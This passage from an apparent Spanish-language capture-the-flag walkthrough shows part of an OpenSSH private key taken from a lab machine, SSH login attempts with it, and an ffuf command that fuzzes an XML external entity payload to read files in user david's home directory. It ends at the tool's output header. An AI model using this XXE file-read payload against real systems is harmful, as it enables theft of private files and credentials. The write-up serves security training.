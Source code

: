 ```
Nl/SOxOtevh0WSQ2zYoOGvjRmB8KgRK8vFmlGvs5XOP9rTdTYAAADBAPYZnl8X1chrL5iE
TWeI/I0p78A5TdilOl9KwWQuzKXGn3+NTtw5y2oN/LDWfUhCYs9ABU2A3HD/scRAvBH3qp
VHoWZP3rSOyAwaN1nM0L1UqjQY3JR36Xmilz0MufRrxdJMyufGSwgYfQtEenNTkLrAf0pO
soEKOIdXNlBf99t/pNMSUtoEHDammOwdIkM4rc7S+OvHOMATPUFm5vtjxRZo54q9D1Raxa
yGIvtnS2cqba2ZV+hf+f6v2UfWrklUUQAAAMEA67IDfAydw2cFEhiE1GJloH4Jk2K7gr2U
XfjoCRcNp9x9kiaaiynqhXAGQWt7F0ouZEKvUIFSCVDKr1oFgnXD2czQcVRu2Mz2UA+RWQ
LgMcY6zaE7uCYg9ANM5Ne9uc6FOmxNpmv3fLI7Z0ROlD/g5b2pwahcIlXAJpZqrkKJnD5A
1A9Vth0+98l11G3/+YAEawCEJAHnIWgUq5kq1/OFKYXDhxew9KBnhr+yHOGE6TVLUnxdwQ
46q7aIDpVmMKMlAAAADmRhdmlkQGZyZWU0YWxsAQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

Veremos que ha funcionado, por lo que vamos a guardarlo en un archivo `id_rsa` y establecerle los permisos necesarios.

```shell
chmod 600 id_rsa
```

Ahora vamos a probar a conectarnos por `SSH`.

```shell
ssh -i id_rsa david@<IP>
```

Si probamos esto veremos que no nos deja ya que no esta habilitado autenticarte mediante la clave `privada` por lo que vamos a realizar un poco de `fuzzing` en la `home` del usuario `david` a ver que entontramos.

## Escalate user david

### FFUF

```shell
ffuf -w quickhits.txt -X POST \
-H "Content-Type: text/plain;charset=UTF-8" \
-d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/david/FUZZ">]><details><email>&xxe;</email><password>test</password></details>' \
-u http://<IP>/magic.php --fs 85
```

Info:

```


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.5.24/magic.php
 :: Wordlist         : FUZZ: /home/kali/Downloads/quickhits.txt
 :: Header           : Content-Type: text/plain;charset=UTF-8
 :: Data             : <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/david/FUZZ">]><details><email>&xxe;</email><password>test</password></details>
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
```